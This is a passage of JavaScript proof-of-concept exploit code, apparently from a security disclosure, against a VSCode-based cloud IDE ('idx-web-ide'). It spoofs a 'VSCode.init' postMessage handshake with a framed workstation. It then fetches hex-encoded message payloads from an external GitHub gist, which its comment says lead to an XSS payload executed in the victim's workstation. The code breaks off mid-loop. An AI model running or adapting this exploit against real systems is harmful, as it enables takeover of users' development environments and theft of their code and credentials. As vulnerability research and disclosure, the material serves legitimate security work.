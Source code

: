 ````js
const decoder = new TextDecoder("utf-8")
const decode = decoder.decode.bind(decoder)

const encoder = new TextEncoder("utf-8")
const encode = (str) => encoder.encode(str).buffer

// Converts hex to ArrayBuffer
function hex2buf(hex) {
    hex = "0".repeat(hex.length % 2) + hex
    return new Uint8Array(hex.match(/[\da-f]{2}/gi).map(function (h) {
        return parseInt(h, 16)
    })).buffer
}

// Converts ArrayBuffer to hex
function buf2hex(buffer) {
    return [...new Uint8Array(buffer)].map(x => x.toString(16).padStart(2, '0')).join('');
}

// Returns text output of a fetch response
async function fetch_text(...args) {
    const resp = await fetch(...args)
    return resp.text()
}

function sleep(ms) {
    return new Promise(resolve => {
        setTimeout(resolve, ms)
    })
}

// --- end utils ---

// Initiates postmessage communications
function send_map() {
    const map = new Map()
    const channel = new MessageChannel()
    map.set("idx.idx-web-ide", channel.port2)
    frames[0].postMessage({ "type": "VSCode.init", "data": map }, "*", [channel.port2])
}

let send_called = false
// Waits for the init message and then calls send_everything()
function port_listener(e) {
    const rawmsg = e.data
    // console.log("%crecived: " + decode(rawmsg), "color: gray")
    if (!send_called && buf2hex(rawmsg) == "02") { // The message is an init message
        send_called = true
        send_everything()
    }
}

// Fetches a list of postmessage data and sends them
async function send_everything() {
    const ms = Date.now();
    // One of the postmessages in the below file, contains a link to the JS file which contains the XSS payload that would be executed in the victim's idx workstation
    const hex_lines = (await fetch_text(`https://gist.githubusercontent.com/Sudistark/a643a2e8216e5a93f92bde9121333337/raw/b100c95bcb227ad70e64518ff370f3a07cc7a23f/pwn-idx.txt?cacheB=${ms}`)).split("\n")
    await sleep(100)
    for (hex of hex_lines) {
        const rawmsg = hex2buf(hex)
````